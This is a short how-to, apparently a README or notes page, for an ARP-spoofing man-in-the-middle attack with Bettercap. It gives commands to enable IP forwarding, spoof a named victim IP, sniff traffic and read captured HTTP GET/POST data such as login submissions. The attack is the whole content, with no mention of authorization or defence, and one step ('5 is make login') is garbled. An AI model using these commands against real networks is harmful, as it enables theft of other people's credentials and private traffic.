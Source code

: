 
✅ 1. **Install Bettercap**
~~~bash
sudo apt update
sudo apt install bettercap
~~~
### ✅ 2. **Enable IP Forwarding**

Temporarily:
~~~bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
~~~
Permanently:
~~~bash
sudo nano /etc/sysctl.conf
~~~
Uncomment or add this line:
~~~ini
net.ipv4.ip_forward=1
~~~
Then apply:
~~~bash
sudo sysctl -p
~~~
### ✅ 3. **Start Bettercap**

Find your network interface:
~~~bash
ip a
~~~
(Example: `wlan0`, `eth0`, etc.)

Run Bettercap:
~~~bash
sudo bettercap -iface wlan0  # replace wlan0 with your interface
~~~
✅ 4. **In the Bettercap Shell**
~~~bash
net.probe on
net.recon on
net.show                              # shows IPs of devices on network
set arp.spoof.targets 192.168.14.18   # victim IP
set arp.spoof.internal true
arp.spoof on
net.sniff on
~~~

5 is make login 

### ✅ 6. **View Captured HTTP Traffic**

From Ubuntu terminal:
~~~bash
tail -f ~/.bettercap.sniffer.log
~~~
You’ll see GET/POST data here (for HTTP, not HTTPS).


